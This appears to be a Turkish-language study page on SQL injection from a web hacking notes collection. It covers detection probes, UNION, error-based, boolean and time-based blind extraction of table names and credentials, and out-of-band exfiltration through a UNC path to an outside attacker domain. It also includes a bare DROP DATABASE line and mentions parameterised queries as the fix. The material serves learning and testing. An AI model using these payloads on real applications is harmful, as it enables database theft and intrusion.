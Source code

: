 <h1 align="center">SQL Injection</h1>

# SQL Injection Nedir?
* Saldırganın, web yazılımını kullanarak veritabanı sorgusu çalıştırmabilmesidir.

### SQL Injection Nasıl Tespit Edilir?

* SQL INJECTION TIME BASED PAYLOADLAR ILE TESPIT EDILIR !!!! 
* Her db için ayrı sleep metodları vardır. 
* Data insert ederken bile sleep methodunu çalıştırabilirsin. 
* SQL Injection bulurken kendine bir referans noktası seçersin ve denediğin yöntemlerle bu ilk noktaya dönmeye çalışırsın. Başarırsan zaafiyeti kanıtlamışsın demektir.
* SQLi tespit etmek için URL kısmında şunları dene: 
```python
..../productid=4'
	herhangi bir hata falan verirse
..../productid=4''
	böylesini dene, eğer referans noktana dönüyorsan SQLi var demektir.
..../productid=5-1
	bunu da deneyebilirsin
```

## Notlar

- SQL injectionda gönderdiğin data, arka tarafta SQL sorgusu olarak gidiyor. Data, data olarak kalırsa sorun çözülmüş olur.

- ORM uygulama denir buna. Prepare statement deniyor buna. İnputları parametrelendirmek yani.
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/223883df-681b-4e37-9026-2c1e34fe39b3)

```SQL
database() --> mevcut database ismini döndürür

SELECT 2+1;
3

SELECT '2-1';
2-1

SELECT '2'-'1';     --> integer casting yapıyor
1                 

SELECT '2'+'a';    --> 2yi integer cast edebiliyor ama 'a'yı cast edemiyor.
2                 

SELECT 'b'+'a';
0

SELECT '2' '1'; veya SELECT concat('2','1');  --> boşluğu string concatenation yapıyor.
21        

SELECT SELECT '2' '1' 'a';
21a

SELECT SELECT '2' '1' 'a' - 1;   -->  önce çıkartmayı yapıp sonra string birleştirme yapıyor.
20a                 

SELECT 2^1;    -->     XOR operantı bu  2^2 = 0
3

SELECT ~1;    -->      max integer input
18446744073709551614

DROP DATABASE;
```

- Database tablolarına veri eklerken trim(boşlukları silme) işlemi yapmazken, veriyi çekerken trim yapıyor.

- SQL Injection kod örnekleri:
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/7325c682-bc1c-40be-821f-fbf499c0b7cf)
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/8ef456c1-9521-4dd8-ad54-9849f2212e4b)

## UNION SQLi

.../id=2-1
- Peşpeşe SELECT sorgusu çalıştırmak için UNION kullan ama UNION kullanabilmen için 2. SELECT’deki kolon sayısı aynı olması gerekiyor. 
- UNION SELECT 1,2,3,4,5,6,7,8,9,10,11… böyle gidersin.
- Eğer ekranda 7 2 9 gibi değerler görüyorsan bu kodda 2. indisteki kodu uygulama, ekrana yaz demektir bu. Arama çubuğuna gidip 7 yerine version() fonksiyonunu çalıştırdığında veri çekebilir hale gelebilirsin.
- İlk SELECT sorgusunun cevabını görmemek için -99999999 yazabilirsin id UNION’dan önce.
- Sonra versiyon yerine database() yazarsan database ismini getirir.

```SQL
' UNION SELECT 1,2,3,4,5,6,table_name,8,9,10,11 FROM information_schema.tables WHERE table_schema = database()  
	  bu şekilde tablo isimlerini çektik

' UNION SELECT 1,2,3,4,5,6,column_name,8,9,10,11 FROM information_schema.column WHERE table_name = ‘users’  
	  users’ın kolonlarını çekme

' UNION SELECT 1,2,3,4,5,6,uname,8,9,10,11 FROM users  
	  uname yerine kolon isimlerinde ne çıkarsa artık
```
* bu kısımda fonksiyon kullanmak da verimli olabilir || 6,concat(uname,’:MDISEC:’,pass),8,9,..  || veya regex yazıp çözebilirsin.

## Error Based SQLi

- SQL sorgusunun database’de oluşturduğu syntax’ın geri dönmesi sonucu, o syntax hatası içine çıkartmak istediğni veriyi yerleştirmeyle oluşuyor.
- Eğer ki verdirttiğin hata tee database’e kadar gidiyorsa sen bu yardımcı metodu kullanarak data getirebilirsin. XML şeklinde veriyorsun
- Syntax hatası olmadan bu tür olmaz.
```SQL
rand() —> 0-1 arası random sayı üretir.

SELECT extractvalue(rand(), concat(1,"Ali"));
		burada sonuç olarak hata dönüyor ama içinde "Ali" de geçiyor. Sorgunun içindeki string değeri hatanının içinde döndürtmeyi başardın demek.
		böylece subquery kullanabilirsin demek oluyor.
SELECT extractvalue(rand(), concat(1,(SELECT 'mehmet')));  eğer yine hatada mehmet dönerse istediğin sorguyu atabilirsin.
SELECT extractvalue(rand(), concat(1,(SELECT database())));
```

## AND/OR SQLi
```SQL
SELECT extractvalue(rand(), concat(1,"Ali"));
		burada sonuç olarak hata dönüyor ama içinde "Ali" de geçiyor. Sorgunun içindeki string değeri hatanının içinde döndürtmeyi başardın demek.
		böylece subquery kullanabilirsin demek oluyor.
SELECT extractvalue(rand(), concat(1,(SELECT 'mehmet')));  eğer yine hatada mehmet dönerse istediğin sorguyu atabilirsin.
SELECT extractvalue(rand(), concat(1,(SELECT database())));
```

## WHERE id IN (1)
```SQL
www.x.com/?id=1) UNION SELECT #
```

## Tırnaklama
```SQL
SELECT * FROM users WHERE id = '1'''; 
	olduğunda tırnak, tırnağı escape edeceği için sana yine cevabı çevirmiş olur. 3 tane tırnak olsa hata verir.
```

## Boolean-Based / Blind SQLi
- Örnek python kodu:
```python
if result().size > 0:
	print("haber var")
else:
	print("haber yok")
```
> Bu şekilde injection yapılabiliyor:
```SQL
SELECT * FROM haberler WHERE id = 1 and 1=1
SELECT * FROM haberler WHERE id = 1 and (SELECT 1)=1
SELECT * FROM haberler WHERE id = 1 and (SELECT 1)=2  2 
	yaparak referans noktanın değiştiğini gözlemle.
SELECT * FROM haberler WHERE id = 1 and SUBSTRING('MEHMET',1,1)='M'  
	Substring fonksiyonu string ifadeyi indexten indexe kesecek işlemi yapar.
SELECT * FROM haberler WHERE id = 1 and SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1), 1, 1)='a'
	ilk tablo ismini stringi bölerek 'a' eşitlemeye çalışır. 'u' yu bulana kadar alfabetik değiştir. 2 tane for döngüsüyle bütün harfleri bulursun.
Bu işlemi hızlandırmak için:
SELECT * FROM haberler WHERE id = 1 and ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1), 1, 1))> 80
SELECT * FROM haberler WHERE id = 1 and ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1,1), 1, 1))> 80
```
## Time Based SQLi
> Bu şekilde injection yapılabiliyor:
```SQL
SELECT * FROM haberler WHERE id = 1 and 1=IF (1=1,1,0)  condition doğruysa 1 dön değilse 0 dön.
SELECT * FROM haberler WHERE id = 1 and 1=IF (1=1,sleep(5),0)      eğer cevap dönmesi uzun sürerse açığı yakaladın demektir.
	Sonrasında SUBSTRING ve ASCII'den yürü.
```
## Out-of-Band SQLi
- Örnek python kodu:
```python
id = request.get('id')

rabbitmq.pushTask('report_generate',id)
	Senden gelen integer değerleri SQL sorgusu içine yolluyor yani içeride başka işler dönüyor. sleep falan yaramaz aga.
print("selam")
```
> Bu şekilde injection yapılabiliyor:
```SQL
SELECT 'ali' INTO OUTFILE '/tmp/test.txt'; komutu diske bir şeyler yazmana yarar. Bunu kullanarak bir şeyler elde edebilirsin.
SELECT 'ali' INTO OUTFILE '\\\hacker.mdisec.com/a'; windows un özelliğidir bu samba protoklü ile verilen domainin 445.portuna gitmeye çalışır.
	Bunun subdomainine subSELECT kurarsan rahatça table_name falan elde edersin.
SELECT * INTO OUTFILE '\\\'+(SELECT table_name FROM information_schema.tables WHERE table_schema=database())+.mdisec.com/a'
	DB'in bağlı olduğu DNS serveri üstünden senin name serverına istek atar ve dataları orada görürsün.
```
